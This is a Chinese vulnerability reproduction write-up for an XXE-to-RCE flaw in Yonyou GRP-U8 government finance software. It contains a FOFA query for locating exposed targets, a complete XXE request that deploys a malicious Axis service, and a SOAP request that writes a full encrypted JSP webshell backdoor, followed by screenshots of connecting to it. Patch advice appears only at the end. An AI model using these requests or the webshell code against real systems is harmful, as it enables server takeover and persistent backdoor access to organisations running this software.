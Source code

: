 
# 用友GRP-U8 ReturnForWcp RCE漏洞复现

### 0x01 产品简介

    用友GRP-U8内控管理软件是用友公司专注于国家电子政务事业,基于[云计算技术](https://so.csdn.net/so/search?q=%E4%BA%91%E8%AE%A1%E7%AE%97%E6%8A%80%E6%9C%AF&spm=1001.2101.3001.7020 "云计算技术")所推出的[新一代](https://so.csdn.net/so/search?q=%E6%96%B0%E4%B8%80%E4%BB%A3&spm=1001.2101.3001.7020)产品,是我国行政事业财务领域最专业的政府财务管理软件。

### 0x02 漏洞概述

   用友GRP-U8内控管理软件/servlet/PayReturnForWcp接口处存在xxe漏洞，攻击者可利用xxe漏洞组合内部axis组件的AdminService部署恶意类service，使用外部实体%name来加载"http://xxxx/services/AdminService?method=xx" 远程URL，调用javax.elELProcessor，部署成功后可写入恶意后门文件，可导致服务器失陷。

### 0x03 影响范围

 用友GRP-U8R10产品官方在售及提供服务的版本为U8Manager，产品分B、C、G三个产品系列

### 0x04 复现环境

FOFA：app="用友-GRP-U8"

![24bf86b64d5944fbb8b9dc3009a6bb53.png](assets/1700126100-aceb230083ecde5fe9623daf6b4ca7ed.png)

### 0x05 漏洞复现 

查看Axis组件是否存在名为AdminService的接口,如果存在可尝试部署恶意service

![10d9d0e15aee4831b0fe6564647c92d1.png](assets/1700126100-184eee9bc03ebf0b841d683c79f089ff.png)

 写入后门文件需要获取绝对路径

```cobol
http://your-ip/u8qx/pubDownTemplate.jsp
```

![cfb6db7ede4045598b0d3f97c6923c55.png](assets/1700126100-de524c5540a338cd0b8f1455e5bb4750.png) 

**Exp**

```perl
POST /servlet/PayReturnForWcp HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0

<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://127.0.0.1:8001/services/AdminService?method=!--%3E%3Cdeployment%20xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%20xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22OpenTaske%22%20provider%3D%22java%3ARPC%22%3E%3CrequestFlow%3E%3Chandler%20type%3D%22java%3Aorg.apache.axis.handlers.LogHandler%22%20%3E%3Cparameter%20name%3D%22LogHandler.fileName%22%20value%3D%22D:\UFGOV_M\U8\webapps\a.jsp%22%20%2F%3E%3Cparameter%20name%3D%22LogHandler.writeToConsole%22%20value%3D%22false%22%20%2F%3E%3C%2Fhandler%3E%3C%2FrequestFlow%3E%3Cparameter%20name%3D%22className%22%20value%3D%22java.util.Random%22%20%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%20%2F%3E%3C%2Fservice%3E%3C%2Fdeployment">
```

PS：需要替换请求体中的地址端口和绝对路径 

**部署service（OpenTaske）**

![de34d731431e46e9b35e70f12d314108.png](assets/1700126100-9ca3137f298d210b970d370edfd64e0b.png)

**验证**

![78243e8c9a504000a353d7be00ddcc11.png](assets/1700126100-c88caf3ec2118550f33d2a7875b381e8.png)

 **写入webshell**

```cobol
POST /services/OpenTaske HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
Accept: application/soap+xml, application/dime, multipart/related, text/*
User-Agent: Axis/1.4
Cache-Control: no-cache
Pragma: no-cache
SOAPAction: ""

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:util="http://util.java">
   <soapenv:Header/>
   <soapenv:Body>
      <util:ints soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="xsd:int" xs:type="type:int" xmlns:xs="http://www.w3.org/2000/XMLSchema-instance">
         <![CDATA[<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>]]>
        </in0>
         <in1 xsi:type="xsd:int" xs:type="type:int" xmlns:xs="http://www.w3.org/2000/XMLSchema-instance">?</in1>
      </util:ints>
   </soapenv:Body>
</soapenv:Envelope>
```

![9e908d7dc6254941a424d2b7352831c2.png](assets/1700126100-20c23dbceda16b9e27de805a9e230b73.png)

**验证**

![38ed1f8e0a41419c89f4a18aadcfb7ec.png](assets/1700126100-8e2659b6fbdd044f8b2ef84728716852.png) PS：返回以上情况马子才可以解析

**尝试连接**

![93dba2c4bf9543e9a91bb5a3ec7e374b.png](assets/1700126100-2ce7f34e390e6e2a6787ef5fd69c8c8c.png)

![141196cd417d49dca81e6377909cc983.png](assets/1700126100-de89e33ab3fe5af569c6b790131dd4df.png)

###  0x06 修复建议

本次漏洞加固方式为使用JDOM解析器禁止xml中某些实体的使用。已发布相关补丁，请及时更新修复补丁。

**获取补丁方式如下：**

 百度云盘：https://pan.baidu.com/s/1cQIxlUkpYAxE508EXjgQxA

提取码：n1xy

用友云盘：https://pan.yonyou.com/s/gUWlv8QkSsY密码：a61h

补丁名称：20231031-关于用友GRP-U8内控管理软件ReturnForWcp存在命令执行漏洞的解决方案.zip
